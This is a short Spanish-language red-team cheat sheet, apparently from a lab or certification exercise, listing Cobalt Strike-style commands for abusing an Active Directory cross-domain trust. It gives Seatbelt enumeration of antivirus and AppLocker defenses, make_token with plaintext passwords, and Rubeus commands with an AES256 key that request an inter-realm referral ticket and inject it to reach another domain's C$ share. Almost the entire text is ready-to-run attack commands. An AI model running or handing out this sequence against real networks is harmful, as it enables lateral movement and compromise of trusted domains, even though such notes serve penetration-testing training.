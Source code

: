 ```powershell
DEV\Subsidiary Admins

# Enumerar defensas
execute-assembly /opt/tools/Seatbelt.exe AMSIProviders AntiVirus AppLocker Powershell UAC -computername="ad.sucursal.external"

# Enumerar Grupos Local
powershell Get-NetLocalGroupMember -ComputerName ad.sucursal.external


# Listar recursos
make_token dev\jadams Qwerty123!

ls \\ad.sucursal.external\c$

---

####################################
#		  RC4/AES256			   #
####################################

# 1. Solicitamos un tgt del usuario que este en el usuario externo
execute-assembly /opt/tools/rubeus/Rubeus.exe asktgt /user:jadams /domain:dev.evilcorp.local /aes256:5C8838A1D0F155C70ABB3C93ADACF1912826F149E276A445EF76E7821A89390A /nowrap /opsec

# 2. Solicitamos un ticket de referencia entre reinos
execute-assembly /opt/tools/rubeus/Rubeus.exe asktgs /user:jadams /service:krbtgt/sucursal.external /domain:dev.evilcorp.local /dc:dc-2.dev.evilcorp.local /ticket:[..Ticket..] /nowrap

# 3. Con el TGS de referencia entre reinos solicitados anteriormente, ahora solicitamos un tgs en el dominio de destino
execute-assembly /opt/tools/rubeus/Rubeus.exe asktgs /service:cifs/ad.sucursal.external /domain:sucursal.external /dc:ad.sucursal.external /ticket:[..TGS de Referencia..]= /nowrap

# Impersonalizamos al usuario e inyectamos el ticket
make_token dev\jadams Fakepassw!

execute-assembly /opt/tools/rubeus/Rubeus.exe ptt /ticket:[..Tgs..]

ls \\ad.sucursal.external\c$

```
